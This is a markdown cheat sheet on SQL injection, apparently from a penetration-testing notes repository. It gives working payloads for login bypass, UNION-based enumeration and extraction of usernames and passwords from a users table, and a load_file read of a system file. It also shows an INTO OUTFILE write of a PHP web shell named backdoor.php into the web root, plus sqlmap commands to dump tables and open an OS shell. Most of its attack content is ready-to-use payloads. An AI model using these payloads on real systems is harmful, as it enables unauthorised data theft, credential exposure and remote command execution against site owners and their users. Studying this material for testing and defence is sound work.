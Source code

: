 # SQL Injection

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve.

## Identifying SQLi

First of all we need to find locations where data might pass through a DB (logins, comments..) and try to use special SQL characters in order to see how the application responds (we look for SQL syntax errors). Example:

#### Using single quote (')
```bash
#Normal query from a login form:
SELECT * FROM Users WHERE login = '$username' and password = '$password';
#Given a login form we can try to inject a single quote in order to make a sql syntax error.
#Modified query that will display syntax error:
SELECT * FROM Users WHERE login = ''' and password = 'mypassword';
```
_____

## Bypass Authentication

The classic SQLi example. By providing the following input in the user input we can bypass the login of a website:

```bash
#Input used + SQL final result (condition is true because 1=1):
user' or 1=1;#
SELECT * FROM users WHERE username = 'user' or 1=1;
```

The above example will display all rows in the users database. However, there are applications that will generate an error since the logic of the program is to retrieve only one. We can bypass this by appending the LIMIT in the end of the query string in order to only display one:

```bash
user' or 1=1 LIMIT 1;#
```

### SQLi into a register form

We can try to create the following user and then log in to see if we get anything interesting:

```bash
username' or 1=1-- -
password: whatever
#Then try to log in with the above username/password.
```

_____

## Enumerating the DB

Take this as an example of a new SQL query:

```SQL
$query = "SELECT id, name, grade FROM reviews WHERE id=". _GET['id'];
```

The URL will be something like the following:

```php
.php?id='
```

We can test the single quote (') again in order to verify if we get a syntax error.

#### Column Enumeration

The "ORDER BY" statement can help us to enumerate how many columns are used in the query string.  If there is at least 'n' columns in the query, the query is valid and the page will render without errors.

```php
<!-- Start changing n to 1 and increment by 1 until there is an error:-->
php?id=1 order by n
```

Once identified how many columns the query is using, we need to know which ones are displayed in the webpage. To achieve this we can use the union statement:

```bash
#In our example there are 3 columns:
php?id=1 union select 1,2,3
#This will display a number (1, 2 and 3) on the columns.
```

#### Extracting Data

Imagine only columns 2 and 3 are being displayed in the website. We can use SQLi to extract data from the database:

```bash
#These examples are made for MariaDB, this could change depending on the software used.
#SQL Version
php?id=1 union all select 1, 2, @@version
#Database user (don't use ;):
php?id=1 union all select 1, 2, user();
#Information schema. It stores information about the database, like table and column names:
php?id=1 union all select 1, 2, table_name from information_schema.tables
#Column names from a specific table (users):
php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
#"Users" table column data:
php?id=1 union all select 1, username, password from users
```

#### Columns with a given name

Select DB, Table that contains a given string:

**Oracle DB:**
```bash
#Change $STRING with: PASSWD, PASSWORD, USERANME...
SELECT OWNER, TABLE_NAME FROM ALL_TAB_COLUMNS WHERE column_name LIKE '%$STRING%';
```
_____

## SQLi to RCE

SQLi can be used to read and write files on the underlying OS (not always).

#### Read file from the server:

```bash
php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

#### Write file on the server:

```bash
#This can output some errors, but the file should be created
php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

_____

## SQLMap:
```bash
#TARGET should have the vulnerable parameter:
http://something.com/file.php?id=1
#Common uses
sqlmap -u $TARGET --dbs
sqlmap -u $TARGET -D $DATABASE --tables
sqlmap -u $TARGET -D $DATABASE -T $TABLE --columns
sqlmap -u $TARGET -D $DATABASE -T $TABLE -C $COLUMN1,$COLUMN2 --dump
#Take a look at cookies sent in the request, maybe should add --cookie="$COOKIE"
```

Common flags:

| **Flag**   | **Description**                            |
|------------|--------------------------------------------|
|--cookie    | HTTP Cookie header value                   |
|--dbs       | List DBS names                             |
|--tables    | Enumerate DBMS database tables             |
|--columns   | Enumerate DBMS database table columns      |
|-D          | DBMS database to enumerate                 |
|-C          | DBMS database table column(s) to enumerate |
|--dump      | Dump DBMS database table entries           |
|--dbms=mysql| Set backend type (change mysql)            |
|--os-shell  | Execute a remote command shell on target system|
